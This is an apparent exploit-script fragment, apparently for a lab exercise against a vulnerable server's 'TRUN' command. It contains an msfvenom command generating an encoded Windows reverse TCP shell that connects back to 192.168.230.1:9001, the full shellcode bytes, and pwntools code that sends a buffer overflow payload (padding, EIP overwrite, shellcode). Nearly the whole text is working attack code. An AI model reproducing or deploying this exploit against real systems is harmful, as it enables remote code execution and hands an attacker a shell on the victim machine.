 	# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.230.1 LPORT=9001 -f python -v shellcode -b "\x00" EXITFUNC=thread -e x86/shikata_ga_nai -i 5
	shellcode =  b"\x90\x90\x90\x90"*4
	shellcode += b"\xbe\x10\xb8\x74\xab\xda\xcb\xd9\x74\x24\xf4"
	shellcode += b"\x5b\x31\xc9\xb1\x6d\x31\x73\x12\x83\xeb\xfc"
	shellcode += b"\x03\x63\xb6\x96\x5e\x59\x1a\xe9\xa8\xec\x38"
	shellcode += b"\xe9\x72\x7a\x1b\xe2\xdb\xb3\xaa\xbb\x82\x30"
	shellcode += b"\xea\xb8\x7b\x48\xe7\xc3\x05\xa9\x54\xaa\xdf"
	shellcode += b"\x0e\x10\xd7\xdd\x9b\x93\xae\x82\xcc\x1f\xa3"
	shellcode += b"\xe9\xac\xe5\x60\xab\x4a\x7e\x31\xb4\xb4\xeb"
	shellcode += b"\xe5\x27\x16\xbc\xe0\xbe\x65\xb9\x9f\xde\x37"
	shellcode += b"\xb4\xbe\x41\x80\x05\xd1\xcf\x3f\x5b\x3a\xd7"
	shellcode += b"\x46\x63\x5c\x4a\x8e\x11\x1e\x5e\x54\x93\xdb"
	shellcode += b"\x36\x11\xec\x5f\xc4\xd1\x40\xb9\xf1\xda\x69"
	shellcode += b"\x28\x9a\x64\xc2\xfb\x52\x48\x1d\x04\xf7\x98"
	shellcode += b"\xfd\x0a\xb1\xeb\x8b\xcc\x43\xd5\x68\x3f\x69"
	shellcode += b"\xb0\x4d\xfd\xfa\xcb\x6c\x83\xaf\x1e\x34\x09"
	shellcode += b"\x3c\xe6\xf5\x11\x40\x8a\xb1\xa2\xb2\xd8\x94"
	shellcode += b"\x5c\xf4\x20\xcf\x27\x41\xe6\xc7\xca\x23\x33"
	shellcode += b"\x2f\x03\xb1\xcb\x6a\xe7\xf6\x5f\x67\x3b\x86"
	shellcode += b"\xc8\x35\x4b\x0f\x20\xf6\x75\xe3\x55\x12\xe8"
	shellcode += b"\x7c\x66\x1f\x2d\x10\x0b\x8b\xcf\x99\x3e\x11"
	shellcode += b"\x32\xc7\x45\xc0\x78\xe1\xbb\xb7\xbe\x08\x8d"
	shellcode += b"\xba\x1b\x65\xf0\x6c\x7d\x41\x42\xed\x46\x67"
	shellcode += b"\xa0\xf8\x19\xf5\xfc\xdf\x1d\x93\x8a\x07\x9d"
	shellcode += b"\x5b\xb6\xaf\x7f\xf7\xfb\x02\x03\x56\x97\xc4"
	shellcode += b"\x28\xb5\xb5\x74\x2e\x88\x76\xa1\xb1\xd7\x39"
	shellcode += b"\x59\xd6\x8b\x2c\x4e\x16\x21\xa7\xbc\xf3\xdb"
	shellcode += b"\xfe\xe6\xe1\x95\xf2\x39\x8b\x2d\xd9\xfb\xa2"
	shellcode += b"\x6d\xfb\x34\x87\xfb\x46\x77\x8a\x60\x9f\x74"
	shellcode += b"\x78\x27\x34\xd6\x02\xb2\x14\xd6\xc7\x8c\x77"
	shellcode += b"\x40\xd0\xa9\x44\x2e\x4f\x4b\x2d\x8a\xb6\xac"
	shellcode += b"\xe0\x53\x5d\xd4\x62\x97\x88\xf2\x81\xac\xdf"
	shellcode += b"\x61\x12\xc5\x6d\xa5\x59\xfb\x1b\xa0\xca\x34"
	shellcode += b"\x56\x74\x05\x02\x37\x2d\xb3\x5d\xe5\x73\x67"
	shellcode += b"\x8c\x17\xc8\xaa\xa8\x23\x8c\xd9\xe5\x42\xeb"
	shellcode += b"\xf1\xe9\xbf\xf0\x23\x0f\xc6\xc0\xe7\xe4\xf4"
	shellcode += b"\x6a\x68\x23\x09\x94\x5e\x8c\xa7\x1c\x60\xc2"
	shellcode += b"\xd5\x2d\xaf\xfb\x4d\xff\x10\x57\xd2\x05\xbc"
	shellcode += b"\x9b\x0d\xe6\xea\xf2\x57\x29\x31\x06\x2a\xfb"
	shellcode += b"\x74\x92\x13\x28\x4c\x32\xbc\x56\x1c\x4b\x05"
	shellcode += b"\xaf\x3a\xe7\xdc\xf6\xd0\x52\x93\x20\x7f\x34"
	shellcode += b"\xcd\x52\x55\x2f\x0d\xa9\xe2\xb8\x0a\x3c\x8d"
	shellcode += b"\x8e\xa9\x30\x3c\x31\x98\x31\xd9\xe4\x82\x7d"
	shellcode += b"\x5f\x3c\xfe\x56\x5c\x42\x0a\x1b"


	con =remote(host,port)
	payload=b"TRUN . "+b"A"*2005+eip+shellcode
	print(con.recvline())
	con.sendline(payload)
	print(con.recvline())

